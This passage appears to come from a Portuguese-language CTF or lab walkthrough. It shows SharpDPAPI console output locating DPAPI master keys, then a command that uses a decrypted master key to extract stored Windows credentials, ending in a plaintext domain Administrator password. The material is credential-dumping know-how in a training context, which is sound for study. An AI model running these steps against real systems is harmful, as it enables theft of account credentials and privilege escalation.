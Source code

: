 ```bash
[*] Found MasterKey : C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-500\9851d4a5-f9b1-4277-b4ee-188e11f8e997
[*] Found MasterKey : C:\Users\security\AppData\Roaming\Microsoft\Protect\S-1-5-21-953262931-566350628-63446256-1001\0792c32e-48a5-4fe3-8b43-d93d64590580

[*] User master key cache:

{0792c32e-48a5-4fe3-8b43-d93d64590580}:BF6D0654EF999C3AD5B09692944DA3C0D0B68AFE




SharpDPAPI completed in 00:00:00.3149626

C:\Users\Administrator\Desktop>
```

> Descriptografar Credentials passando o SID e Masterkey decrypted

```bash
C:\Users\Administrator\Desktop>SharpDPAPI.exe credentials {0792c32e-48a5-4fe3-8b43-d93d64590580}:BF6D0654EF999C3AD5B09692944DA3C0D0B68AFE

  __                 _   _       _ ___ 
 (_  |_   _. ._ ._  | \ |_) /\  |_) |  
 __) | | (_| |  |_) |_/ |  /--\ |  _|_ 
                |                      
  v1.11.1                               


[*] Action: User DPAPI Credential Triage

[*] Triaging Credentials for ALL users


Folder       : C:\Users\security\AppData\Roaming\Microsoft\Credentials\

  CredFile           : 51AB168BE4BDB3A603DADE4F8CA81290

    guidMasterKey    : {0792c32e-48a5-4fe3-8b43-d93d64590580}
    size             : 538
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32782 (CALG_SHA_512) / 26128 (CALG_AES_256)
    description      : Enterprise Credential Data

    LastWritten      : 8/22/2018 10:18:49 PM
    TargetName       : Domain:interactive=ACCESS\Administrator
    TargetAlias      : 
    Comment          : 
    UserName         : ACCESS\Administrator
    Credential       : 55Acc3ssS3cur1ty@megacorp



SharpDPAPI completed in 00:00:00.0815681

C:\Users\Administrator\Desktop>
```
